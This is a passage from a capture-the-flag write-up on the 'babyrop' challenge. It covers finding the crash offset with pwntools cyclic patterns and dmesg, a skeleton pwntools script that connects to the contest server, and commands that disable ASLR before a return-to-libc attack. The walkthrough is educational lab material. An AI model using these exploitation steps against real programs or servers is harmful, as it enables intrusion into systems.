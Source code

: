 ```
...
$ pwn cyclic 73 | ./babyrop
Your name: Your name: Segmentation fault (core dumped)
$ dmesg | tail
...
[ 2245.316979] babyrop[3972]: segfault at 7f380d9a0073 ip 00007f380d9a0073 sp 00007ffcbf6b19c0 error 15 in libc-2.31.so[7f380d984000+25000]
...
$
$ pwn cyclic 76 | ./babyrop
Your name: Your name: Segmentation fault (core dumped)
$ dmesg | tail
...
[ 2265.296463] babyrop[3977]: segfault at 7f9761616173 ip 00007f9761616173 sp 00007ffc74f7a2d0 error 14 in libc-2.31.so[7f9794ab7000+25000]
...
$ 
```
We can update our Python script now and try to build up a payload:
```python
#!/usr/bin/env python3
from pwn import *

# Set our executable and libc
rop_bin = ELF('./babyrop')
libc = ELF("./libc.so.6")
# Say whether we're testing locally or attacking the server
run_local = True

# If local, run as a process, otherwise connect to the server
if run_local:
  p = rop_bin.process()
else:
  host = 'dicec.tf'
  port = '31924'
  p = remote(host, port)

print(p.recv())

```
Now we have this script, which will just allow us to use the binary for now, we tested it and it runs against both the local executable and the remote version.

## Testing with ASLR turned off
We can test it first with the slightly simpler static address version. It may be that the server has ASLR turned off and we can just use this. We disable ASLR on our machine with:
```
$ cat /proc/sys/kernel/randomize_va_space > old_rvs.txt
$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
0
```
Now, when we want to reference the address of `system()` in the *libc* it will be a static address. With ASLR on the address would change on each run, making `system()` harder to locate.
